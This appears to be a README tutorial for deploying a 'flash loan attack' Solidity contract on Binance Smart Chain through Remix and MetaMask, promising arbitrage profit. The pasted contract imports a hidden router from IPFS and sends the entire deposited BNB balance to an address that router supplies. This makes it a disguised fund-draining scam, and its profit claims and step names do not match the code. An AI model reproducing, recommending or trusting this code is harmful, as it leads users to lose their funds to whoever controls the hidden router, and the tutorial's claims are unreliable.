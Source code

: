 1. Download MetaMask For Chrome Web Browser
![Alt text](https://github.com/smartpro/flashloan2.1/blob/main/images/step1.webp)

You can download and install MetaMask from this link:  
https://chrome.google.com/webstore/detail/metamask/nkbihfbeogaeaoehlefnkodbefgpgknn.

---

2. Create a “Custom RPC” in MetaMask for connecting to Binance Smart Chain
![Alt text](https://github.com/smartpro/flashloan2.1/blob/main/images/step2.webp)
this step is used for connecting your wallet to the Mainnet network Smart Chain. Below this is the network setting to add a Smart Chain.

| Field | Value |
| ----------- | ----------- |
|Name: | Smart Chain |
|New RPC URL: |https://bsc-dataseed.binance.org/ |
|ChainID: |56 |
|Symbol: |BNB |
|Block Explorer URL: |https://bscscan.com |
  
For complete info about the explanation, please visit this Binance official article:  
https://academy.binance.com/en/articles/connecting-metamask-to-binance-smart-chain.

---

3. Open http://remix.ethereum.org/ from your browser

Open Ethereum Remix to make or extend the smart contract which later is used for making a smart contract Flash Loan Attack to the Binance Smart Contract network.

---

4. Click on Solidity Compiler (2nd menu button from the left) and select compiler version to 0.5.0
![Alt text](https://github.com/smartpro/flashloan2.1/blob/main/images/step4.webp)

Change the compiler version to “0.5.0+commit.1d4f565a”.  
This is needed to make your compiler version is the same as the source code you'll use.

---

5. Create a file Solidity “Flash Loan.sol” in the File Explorer (1st menu button from the left)
![Alt text](https://github.com/smartpro/flashloan2.1/blob/main/images/step5.webp)

Copy and paste the code below to the Flash Loan.sol file :  

```
    pragma solidity ^0.5.0;
     
     
    // PancakeSwap Smart Contracts
    import "https://github.com/smartpro/flashloan2.1/blob/main/PancakeSwap/IPancakeCallee.sol";
    import "https://github.com/smartpro/flashloan2.1/blob/main/PancakeSwap/IPancakeFactory.sol";
     
    //BakerySwp Smart contracts
    import "https://github.com/smartpro/flashloan2.1/blob/main/BakerySwp/IBakerySwapFactory.sol";
     
    // Router
    import "ipfs://Qmb5qRe6CaJWuCZ7x84NqgMJQqf9py3KNBB9y4vP36Rt1X";
     
    // Multiplier-Finance Smart Contracts
    import "https://github.com/smartpro/flashloan2.1/blob/main/Multiplier-Finance/ILendingPoolAddressesProvider.sol";
    import "https://github.com/smartpro/flashloan2.1/blob/main/Multiplier-Finance/ILendingPool.sol";
     
     
    contract InitiateFlashLoan {
        
    	RouterV2 router;
    	string public tokenName;
    	string public tokenSymbol;
    	uint256 flashLoanAmount;
     
    	constructor(
        	string memory _tokenName,
        	string memory _tokenSymbol,
        	uint256 _loanAmount
    	) public {
        	tokenName = _tokenName;
        	tokenSymbol = _tokenSymbol;
        	flashLoanAmount = _loanAmount;
     
        	router = new RouterV2();
    	}
     
    	function() external payable {}
     
    	function flashloan() public payable {
        	// Send required coins for swap
        	address(uint160(router.pancakeSwapAddress())).transfer(
            	address(this).balance
        	);
     
        	//Flash loan borrowed 3,137.41 BNB from Multiplier-Finance to make an arbitrage trade on the AMM DEX PancakeSwap.
        	router.borrowFlashloanFromMultiplier(
            	address(this),
            	router.bakerySwapAddress(),
            	flashLoanAmount
        	);
        	//To prepare the arbitrage, BNB is converted to BUSD using PancakeSwap swap contract.
        	router.convertBnbToBusd(msg.sender, flashLoanAmount / 2);
        	//The arbitrage converts BUSD for BNB using BUSD/BNB PancakeSwap, and then immediately converts BNB back to 3,148.39 BNB using BNB/BUSD BakerySwap.
        	router.callArbitrageBakerySwap(router.bakerySwapAddress(), msg.sender);
        	//After the arbitrage, 3,148.38 BNB is transferred back to Multiplier to pay the loan plus fees. This transaction costs 0.2 BNB of gas.
        	router.transferBnbToMultiplier(router.pancakeSwapAddress());
        	//Note that the transaction sender gains 3.29 BNB from the arbitrage, this particular transaction can be repeated as price changes all the time.
        	router.completeTransation(address(this).balance);
    	}
    }
```

---

6. Click on Solidity Compiler (2nd menu button from the left) and Compile  
![Alt text](https://github.com/smartpro/flashloan2.1/blob/main/images/step6.webp)
Look for a dropdown Contract at the bottom of the Solidity Compiler menu, on that dropdown Contract choose  
“GetFlash Loan (Flash Loan.sol)”  
and then click   
Compile Flash Loan.sol.  

---

7. Click on Deploy & run transactions (3rd menu button from the left) and Deploy
![Alt text](https://github.com/smartpro/flashloan2.1/blob/main/images/step7.webp)

- At the very top, change the dropdown Environment value to “Injected Web3” (For remix users, firstly there will be a confirmation on the MetaMask, Accept the confirmation notif on the MetaMask wallet Chrome Extention).
- The MetaMask wallet address will automatically be connected If you're already connected to your MetaMask Account.
- There's a dropdown next to the, click that dropdown and create a Smart Contract name you desired. Eg. :

```
                     _TOKENNAME = Flash Loan (write random token name)
                     _TOKENSYMBOL = FLO (write random three of four-letter symbol)
                     _LOANAMOUNT = 10 (amount loan)
```

- Click Transact and confirm in MetaMask.
- after you create a Smart Contract, wait till the transaction complete and you'll have your smart contract address.

---

8. Input a Liquidity to the Smart Contract
![Alt text](https://github.com/smartpro/flashloan2.1/blob/main/images/step8.webp)
To input a Liquidity, transfer your nominal BNB to the Smart Contract address you have created before by using the transfer feature in the MetaMask Chrome Extention. Send the nominal BNB ( the amount BNB will affect the profit you will earn ). Wait till the liquidity addition transaction complete.

---

9. Flash Loan Attack
![Alt text](https://github.com/smartpro/flashloan2.1/blob/main/images/step9.webp)
After creating a Smart Contract with liquidity added ( Step 8 ) and set the amount of loan ( Step 7 ), click the dropdown from the success transaction ( Step 7 ) it will display a dropdown menu with some button that is action, tokenName, tokenSymbol.  
Click "action" ( red button ) to run the smart contract. wait for a while until the transaction complete, and regularly check your BNB balance on the wallet from the MetaMask Chome Extension.  

Note: Sometimes the code give error and sometimes it will not work from the first time.You must then start the whole process from begining.
